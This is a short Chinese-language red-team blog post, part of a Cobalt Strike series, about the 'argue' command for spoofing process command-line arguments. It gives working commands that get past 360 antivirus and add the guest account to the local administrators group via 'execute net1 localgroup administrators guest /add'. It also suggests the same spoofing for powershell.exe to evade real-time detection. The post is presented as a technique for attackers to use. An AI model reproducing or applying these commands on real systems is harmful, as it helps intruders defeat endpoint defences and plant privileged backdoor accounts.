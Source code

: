 ```yaml
---
layout:     post
title:    Cobalt Strike系列8
subtitle:   argue命令进行参数污染
date:       2019-12-03
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
---
```

# Cobalt Strike系列8

### 简介
一个实用的小技巧，argue命令参数污染。  
需要administrator或者system权限。  
Usage:  
```
argue [command] [fake arguments]  
```
注意：  
这里的fake arguments要比原始的command长。  


### 实例
添加guest用户到管理员组，直接添加可以看到被360拦住了。  
![191203_1](/img/191203_guest.png)  
在cs中执行命令：  
```
argue net1 xxxxxxxxxxxxxxxxxxxxxxxxx
```
![191203_2](/img/191203_arguenet.png)  
然后输入argue命令查看列表，查看net1参数是否被污染。  
![191203_3](/img/191203_arguelist.png)  
这时候再执行命令，不能用shell来执行了，需要用execute。  
```
execute net1 localgroup administrators guest /add
``` 
然后在命令行中通过命令查看是否添加到管理员组：  
```
net user guest
```
可以看到已经成功添加了。  
![191203_4](/img/191203_localgroup.png)   
实际中不仅仅可以用来这个，还可以用参数污染来进行powershell命令执行。   
```
argue powershell.exe xxxxxxxxxxxxxxxxxxxxxxxxx
```
这样也是能用来规避实时防御的检测。  
防止真实参数直接传入进程执行被检测。  


### 总结
目前测试还是可以用的，但是后面可能会被检测。  
事实上不依赖CobaltStrike，使用其他argue参数污染工具可以达到同样的效果，甚至能用更好的逃避查杀的效果，这里这是刚好有这个功能介绍一下这个思路。  

